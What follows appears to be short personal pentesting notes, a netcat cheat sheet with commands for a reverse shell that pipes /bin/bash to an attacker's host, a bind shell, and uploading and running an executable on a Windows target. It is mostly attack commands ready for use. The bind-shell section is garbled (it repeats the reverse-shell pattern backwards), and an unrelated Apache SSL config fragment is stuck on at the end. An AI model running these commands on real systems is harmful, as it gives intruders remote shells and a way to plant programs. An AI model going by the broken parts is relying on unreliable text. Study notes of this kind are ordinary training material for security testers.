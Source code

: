 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v


/etc/apache2/ssl/apache.crtSSLCertificateKeyFile /etc/apache2/ssl/apache.key
